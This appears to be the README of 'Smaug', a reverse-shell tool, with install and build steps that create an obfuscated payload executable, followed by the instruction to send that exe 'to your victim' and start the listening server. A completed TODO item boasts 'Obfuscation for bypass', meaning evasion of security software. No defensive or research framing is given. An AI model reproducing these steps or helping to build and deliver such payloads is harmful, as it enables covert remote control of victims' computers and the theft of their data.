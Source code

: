 <div style="display: flex; justify-content: center; align-items: center;">
    <img src="./images/icon.png" height=50 style="margin-right: 15px">
    <h2 style="text-decoration: underline; color: #c24164">Smaug</h2>
</div>

<img src="/images/demo.png" style="border-radius: 12px; box-shadow: 0px 0px 15px #c24164;"/>

## Installation

You need python installed to use this application

Clone the repository and cd in to it
```
git clone https://github.com/gokiimax/Smaug-Reverse-Shell.git
cd Smaug
```

1. Install Requirements
```
./install.bat
```

2. Configure [config.json](./config.json) and Create the payload
```
./start.bat

╭── [ Smaug@admin ]
╰──────# createpayload
```

3. Create exe from client.pyw
```
./start.bat

╭── [ Smaug@admin ]
╰──────# createpayload

╭── [ Smaug@admin ]
╰──────# build
```

4. Send Your new Exe file to your victim and Start the server
```
./start

╭── [ Smaug@admin ]
╰──────# start server
```

## TODO

- [x] - Config
- [x] - Create Payload
- [x] - Obfuscation for bypass
- [x] - Update Checker
- [x] - Themes

## Themes

- red
- blue
- green
- purple
- black
- white
- Cyan

# Credits
[![Twitter Link](https://img.shields.io/badge/Twitter-1DA1F2?style=for-the-badge&logo=twitter&logoColor=white)](https://twitter.com/gokimax_x)
